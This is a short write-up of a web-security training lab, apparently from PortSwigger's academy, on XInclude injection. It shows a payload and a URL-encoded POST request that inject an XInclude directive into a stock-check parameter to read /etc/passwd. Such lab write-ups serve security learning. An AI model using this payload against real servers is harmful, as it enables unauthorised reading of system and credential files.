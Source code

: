 
# Exploiting XInclude to retrieve files

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.

Hint: By default, XInclude will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the XInclude directive to change this behavior.


---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe



![img](images/Exploiting%20XInclude%20to%20retrieve%20files/1.png)

---------------------------------------------

Initial payload:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Initial POST request:



![img](images/Exploiting%20XInclude%20to%20retrieve%20files/2.png)


It is possible to retieve the file's content URL-encoding the payload and sending it inside the “productId” parameter:

```
POST /product/stock HTTP/2
...

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```



![img](images/Exploiting%20XInclude%20to%20retrieve%20files/3.png)